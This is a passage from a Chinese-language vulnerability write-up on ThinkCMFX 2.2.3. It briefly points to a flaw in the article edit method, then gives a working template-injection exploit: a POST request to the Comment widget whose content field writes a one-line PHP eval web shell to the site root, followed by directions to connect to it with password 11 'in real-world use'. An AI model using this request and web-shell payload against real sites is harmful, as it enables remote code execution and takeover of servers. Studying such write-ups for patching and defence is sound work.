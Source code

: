 #### 0x01.2 漏洞原理

文件：ThinkCMFX\_2.2.3\\application\\Portal\\Controller\\ArticleController.class.php
方法：public function edit\_post(

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId28.jpg)

这里不多讲，因为没得意义。详情请看先知的历史tp漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可getshell两处

##### 0x02.1 Comment类模版引擎注入演示

    url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
    post:
    templateFile=/../public/index
    prefix=''
    content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php>

发送之后页面http状态会为200，这样就表示成功了 简单讲解一下：content
我输入了php代码所以他会在本地跟路径创建一个一句话木马test.php
所以实战过程中。

连接马子：<http://xxxxx.com/test.php> 密码:11 即可getshell
